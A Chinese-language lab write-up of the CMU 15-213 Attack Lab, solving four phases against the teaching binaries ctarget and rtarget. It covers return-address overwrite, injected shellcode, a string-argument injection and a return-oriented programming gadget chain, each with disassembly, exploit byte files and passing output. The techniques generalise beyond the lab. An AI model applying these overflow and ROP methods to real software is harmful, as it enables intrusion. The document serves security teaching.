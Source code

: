 任务：实施缓冲区溢出攻击，向ctarget和rtarget输入exploit strings，以完成特殊操作。
利用HEX2RAW程序生成特殊的exploit strings 例子:
```
unix> ./hex2raw < ctarget.l2.txt | ./ctarget
Cookie: 0x1a7dd803
Type string:Touch2!: You called touch2(0x1a7dd803)
Valid solution for level 2 with target ctarget
PASSED: Sent exploit string to server to be validated.
NICE JOB!
```

首先  objdump -d ./ctarget >> ctarget.s 生成汇编代码。
ctarget的test函数在第900行。

## phase1：重定向
通过缓冲区溢出攻击，**重定向**test中的getbuf函数，使其返回时执行torch1函数。
阅读getbuf函数：
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
发现其栈指针减40字节，在调用gets函数向缓冲区输入数据，所以我们只需要输入48个字节，且后8个字节为torch1函数地址，即可完成重定向任务。查看torch1函数地址：
```
00000000004017c0 <touch1>:
```

所以可以输入以下字节到ctarget.l1.txt文件：
```
/* 进入getbuf函数后 减40字节后%rsp位置 */ 00 00 00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00  
/* getbuf 函数执行 retq语句之前 %rsp位置 */ c0 17 40 00 00 00 00 00 00 00  /* 小端法表示的torch1函数地址 */
```
后执行命令
```
[root@b07618077bfd attacklab]# ./hex2raw < ctarget.l1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 00 00
```

## phase2：注入代码
利用缓冲区溢出执行攻击代码的方法：将栈空间的函数返回地址溢出覆盖为栈指针%rsp的值，然后从%rsp位置开始写入执行代码。
phase2任务为通过溢出执行torch2函数：
```
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
传入参数保存在寄存器%edi中，该值要等于cookie值。说明**注入代码**功能为修改%edi的值，并通过ret语句转到torch2函数地址。


gdb查找getbuf函数调用gets函数前%rsp的值：
```
(gdb) print /x $rsp
$1 = 0x5561dc78
```
注入代码语句：
```
movl    $0x59b997fa,%edi
pushq   $0x4017ec
retq
```
其中0x59b997fa为cookie值，0x4017ec为torch2函数起始地址。
将上面手写的汇编代码通过以下命令:
```
unix> gcc -c ctarget.l2.s
unix> objdump -d ctarget.l2.o > ctarget.l2.d
```
转换，其中部分ctarget.l2.d内容为：
```
0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	/* mov    $0x59b997fa,%edi */
   5:	68 ec 17 40 00       	/* pushq  $0x4017ec */
   a:	c3                   	/* retq */  
```

所以可以输入以下字节到ctarget.l2.txt文件：
```
/* getbuf函数 ret语句返回位置 */ bf fa 97 b9 59   /* mov    $0x59b997fa,%edi   */
68 ec 17 40 00          /* pushq  $0x4017ec */
c3                      /* retq */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
/* getbuf 函数执行 retq语句之前 %rsp位置 */  78 dc 61 55 00 00 00 00  /* getbuf函数调用gets函数前%rsp的值 小端法表示 */
```
共48字节，最后一行为缓冲区溢出后返回地址，正好为%rsp，进而执行注入代码，之后可以转到torch2函数。
结果：
```
[root@b07618077bfd attacklab]# ./hex2raw < ctarget.l2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
```

## phase3 注入代码，且传参为字符串
类似phase2，不同点在于寄存器%edi的值要等于 字符串类型的cookie值 的初始地址。（参考torch3函数）
因此在溢出8字节作为返回地址后，额外溢出9字节保存cookie的字符串，但注意0x59b997fa要转成ascii码：
```
/* getbuf函数 ret语句返回位置 */ 48 8d 7c 24 00 /* lea    (%rsp),%rdi */
68 fa 18 40 00 /* pushq  $0x4018fa  当作torch3函数返回地址 */
c3             /* retq */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00  
/* getbuf 函数执行 retq语句之前 %rsp位置 */  78 dc 61 55 00 00 00 00        /* getbuf函数调用gets函数前%rsp的值 小端法表示 作为溢出返回地址 */
/* getbuf 函数执行 retq语句之后 %rsp位置 */  35 39 62 39 39 37 66 61 00 /* 再溢出9字节保存cookie字符串 注意要转成ascii码，最后一字节为/0结束符 */
```
之所以额外溢出，而不是在已分配的栈中写入字符串，是为了防止当函数hexmatch 和 strncmp被调用后覆盖了getbuf已分配的内存。
当getbuf函数返回，执行注入代码时，%rsp加了48字节，刚好指向cookie字符串，所以将其写入寄存器%rdi中。
结果：
```
[root@b07618077bfd attacklab]# ./hex2raw < ctarget.l3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
```

## phase4 返回导向编程
通常程序使用栈地址随机化 以及 不给栈内存执行代码权限的方法，让注入代码攻击变的十分困难。
返回导向编程 (return-oriented programming (ROP)) 利用一种代码内现存的，称为gadget的代码段。

经过上述实验，我们已经知道ret语句对应机器代码c3，且该语句功能为：程序跳转到当前%rsp指向的地址处，再让%rsp指针加8字节。
gadget由一系列其它指令加ret(c3)作为结尾的指令组成。每个gadget都可以实现一个小功能。例子如下：
```
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
其中48 89 c7 编码了指令 movq %rax, %rdi，所以该段代码包含了一个gadget，从地址0x400f18开始，功能为将寄存器%rax中的64位值复制到%rdi中。

phase4任务：在RTARGET上寻找gadgets重复phase2的任务。
为完成该任务，我们需要以下gadget：
```
  402b18:	41 5f                	pop    %r15
  402b1a:	c3                   	retq
```
查表知5f功能为 popq %rdi，所以从地址0x402b19开始的一个gadget功能为：
```
popq    %rdi
retq
```
popq %rdi 功能为将当前栈指针%rsp保存的地址指向的值存入 %rdi中，再将栈指针加8字节；

最终rtarget.l2.txt内容如下：
```
00 00 00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
/* getbuf 函数执行 retq语句之前 %rsp位置 */ 19 2b 40 00 00 00 00 00  /* gadget地址 功能为 popq %rdi */
/* getbuf 函数执行 retq语句之后 %rsp位置 */ fa 97 b9 59 00 00 00 00  /* 将小端法表示的cookie值存入%rdi */
/* popq会将栈指针+8 移动到该位置 */         ec 17 40 00 00 00 00 00  /* 之后gadget ret 语句 转入 touch2 函数 */
```

结果：
```
[root@b07618077bfd attacklab]# ./hex2raw < rtarget.l2.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
```

